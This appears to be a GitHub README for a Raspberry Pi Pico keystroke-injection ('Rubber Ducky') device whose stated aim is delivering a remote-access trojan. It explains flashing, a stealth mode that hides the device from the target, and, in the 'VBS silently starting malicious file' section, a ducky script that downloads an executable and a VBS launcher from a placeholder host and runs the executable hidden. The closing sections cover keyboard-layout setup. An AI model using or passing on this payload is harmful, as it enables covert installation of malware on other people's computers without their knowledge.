 <hr>


<h3 align="center">
<p align="center">
<img src="https://cdn-media-1.freecodecamp.org/images/1*ylvkldd2jkFaSSpn8MdVTQ.png" width="" height="200" />
</p>

  Raspberry Pi-Pico as Rubber Ducky<br><br>
  <a href="#">
      <img src="https://img.shields.io/badge/License-GPLv3-blue.svg" alt="pico" height=24 title="pico">
    <img src="https://awesome.re/badge.svg" alt="Awesome" height=24>
    <img src="https://img.shields.io/github/contributors/nzkoxzu/pi-pico-rubber-ducky.svg?style=plastic&logo=appveyor&logo=appveyor&color=success" alt="pico" height=24>
            <img src="https://img.shields.io/github/forks/nzkoxzu/pi-pico-rubber-ducky.svg?style=plastic&logo=appveyor&logo=appveyor&color=red" alt="pico" height=24>
    <img src="https://img.shields.io/github/issues/nzkoxzu/pi-pico-rubber-ducky.svg?style=plastic&logo=appveyor&logo=appveyor&color=orange" alt="pico" height=24>
  </a>
  
  
  
  
</h3>

# pi-pico-rubber-ducky

Aim is to run a R.A.T payload btw of a Raspberry Pi-Pico (rp2040) running ducky scripts. Part of : https://github.com/Denis-REMACLE/K-ptain.Ratz


### Using

1. To use this repo please download first the [Circuitpython .uf2 file](https://circuitpython.org/board/raspberry_pi_pico/) 
2. Plug the device into a USB port while holding the boot button. It will show up as a removable media device named `RPI-RP2`.
3. Jsut drag and drop the `.uf2` file into the root directory of the Pi Pico. The device will now reboot as `CIRCUITPY`.  
4. Download and copy the repo content to the Pico :
```sh
git clone https://github.com/nzkoxzu/pi-pico-rubber-ducky.git
```
```sh
cp -r pi-pico-rubber-ducky/* /media/username/CIRCUITPY/
```
5. [Create your own ducky script](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript) and save it as `payload.dd` in the Pico.
6. Careful, if your device isn't in setup mode, the device will reboot and after half a second, the ducky script will run.


# Setup mode

To edit the payload, enter setup mode by connecting the pin 1 (`GP0`) to pin 3 (`GND`), this will stop the pico-ducky from injecting the payload in your own machine. The easiest way to so is by using a jumper wire between those pins as seen bellow.

![setup-mode](https://raw.githubusercontent.com/nzkoxzu/pi-pico-rubber-ducky/main/images/setup-mode.png)

# USB enable/disable mode

If you need the pico-ducky to not show up as a USB mass storage device for stealth, follow these instructions.
1. Enter setup mode.
2. Copy `boot.py` to the root of the pico-ducky.
Copy your `payload.dd` script to the pico-ducky.
Disconnect the pico from your host PC. Connect a jumper wire between pin 18 (`GND`) and pin 20 (`GPIO15`). This will prevent the pico-ducky from showing up as a USB drive when plugged into the target computer.
Remove the jumper and reconnect to your PC to reprogram. The default mode is USB mass storage enabled.

![usb-boot-mode](https://raw.githubusercontent.com/nzkoxzu/pi-pico-rubber-ducky/main/images/usb-boot-mode.png)

# VBS silently starting malicious file 

For Windows, if you want to silently run `.exe` files you can run them with VBS. Your `payload.dd` should looks like this :

```dd
STRING curl.exe --output not_malicious_file.exe --url https://youwebsite.example/ressources/not_malicious_file.exe
ENTER
DELAY 1000
STRING curl.exe --output starter.vbs --url https://youwebsite.example/ressources/starter.vbs
ENTER
DELAY 1000
STRING wscript starter.vbs
ENTER
```
This will download `not_malicious_file.exe` and `starter.vbs`. The `starter.vbs` looks like this :

```vbs
Dim WShell
Set WShell = CreateObject("WScript.Shell")
WShell.Run "not_malicious_file.exe", 0
Set WShell = Nothing
```
This VBS file will launch `not_malicious_file.exe` and the `, 0` statement enable silent run.


# Changing Keyboard layouts
Copied from [Neradoc/Circuitpython_Keyboard_Layouts](https://github.com/Neradoc/Circuitpython_Keyboard_Layouts/blob/main/PICODUCKY.md)  

#### How to use one of these layouts with the pico-ducky repository.

**Go to the [latest release page](https://github.com/Neradoc/Circuitpython_Keyboard_Layouts/releases/latest), look if your language is in the list.**

#### If your language/layout is in the bundle

Download the `py` zip, named `circuitpython-keyboard-layouts-py-XXXXXXXX.zip`

**NOTE: You can use the mpy version targetting the version of Circuitpython that is on the device, but on Raspberry Pi Pico you don't need it - they only reduce file size and memory use on load, which the pico has plenty of.**

#### If your language/layout is not in the bundle

Try the online generator, it should get you a zip file with the bundles for yout language

https://www.neradoc.me/layouts/

#### Now you have a zip file

#### Find your language/layout in the lib directory

For a language `LANG`, copy the following files from the zip's `lib` folder to the `lib` directory of the board.  
**DO NOT** modify the adafruit_hid directory. Your files go directly in `lib`.  
**DO NOT** change the names or extensions of the files. Just pick the right ones.  
Replace `LANG` with the letters for your language of choice.

- `keyboard_layout_win_LANG.py`
- `keycode_win_LANG.py`

Don't forget to get [the adafruit_hid library](https://github.com/adafruit/Adafruit_CircuitPython_HID/releases/latest).

This is what it should look like **if your language is French for example**.

![CIRCUITPY drive screenshot](https://github.com/Neradoc/Circuitpython_Keyboard_Layouts/raw/main/docs/drive_pico_ducky.png)

#### Modify the pico-ducky code to use your language file:

At the start of the file comment out these lines:

```py
from adafruit_hid.keyboard_layout_us import KeyboardLayoutUS as KeyboardLayout
from adafruit_hid.keycode import Keycode
```

Uncomment these lines:  
*Replace `LANG` with the letters for your language of choice. The name must match the file (without the py or mpy extension).*
```py
from keyboard_layout_win_LANG import KeyboardLayout
from keycode_win_LANG import Keycode
```

##### Example:  Set to German Keyboard (WIN_DE)

```py
from keyboard_layout_win_de import KeyboardLayout
from keycode_win_de import Keycode
```

Copy the files keyboard_layout_win_de.mpy and keycode_win_de.mpy to the /lib folder on the Pico board
```
adafruit_hid/
keyboard_layout_win_de.mpy
keycode_win_de.mpy
```
<p align="right">(<a href="#top">back to top</a>)</p>


